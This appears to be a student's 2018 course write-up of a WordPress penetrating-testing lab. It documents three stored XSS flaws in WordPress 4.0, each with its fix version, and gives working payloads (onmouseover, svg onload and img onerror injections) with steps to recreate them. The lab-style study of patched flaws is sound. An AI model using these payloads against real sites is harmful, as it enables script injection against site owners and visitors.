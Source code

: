 # Project 7 - WordPress Pentesting

Time spent: 9 hours spent in total

> Objective: Find, analyze, recreate, and document **Three vulnerabilities** affecting an old version of WordPress

## Pentesting Report

1. (Required) Vulnerability Name or ID
  - [ ] Summary: 
    - Vulnerability types: XSS
    - Tested in version: 4.0
    - Fixed in version: 4.2.3
  - [ ] GIF Walkthrough: <img src="first.gif" width="800">
  - [ ] Steps to recreate: create a new post, and paste <a href="[caption code=">]</a><a title="  onmouseover=alert('hello')  ">link</a> into text entry. Finally, go to Preview.
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/changeset/33359)
2. (Required) Vulnerability Name or ID
  - [ ] Summary: 
    - Vulnerability types: XSS
    - Tested in version: 4.0 
    - Fixed in version: 4.7.3
  - [ ] GIF Walkthrough: <img src="second.gif" width="800">
  - [ ] Steps to recreate: create a new post, paste [embed src='https://youtube.com/embed/second\x3csvg onload=alert(1)\x3e'][/embed] into text entry, then go to preview.
  - [ ] Affected source code:
    - [Link 1](https://github.com/WordPress/WordPress/commit/419c8d97ce8df7d5004ee0b566bc5e095f0a6ca8)
3. (Required) Vulnerability Name or ID
  - [ ] Summary: 
    - Vulnerability types: XSS
    - Tested in version: 4.0
    - Fixed in version: 4.2.10
  - [ ] GIF Walkthrough: <img src="thrid.gif" width="800">
  - [ ] Steps to recreate: post a image, then change the title of image with "examplePicture<img src=a onerror=alert('hello')>.jpg", then click view attachment page.
  - [ ] Affected source code:
    - [Link 1](https://github.com/WordPress/WordPress/commit/c9e60dab176635d4bfaaf431c0ea891e4726d6e0)

## Assets

List any additional assets, such as scripts or files

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with [LiceCap](http://www.cockos.com/licecap/).

## Notes

Most vulnerabilities are based on XSS, which is not easy to me.

## License

    Copyright [2018] [Xiaohang Zou]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.

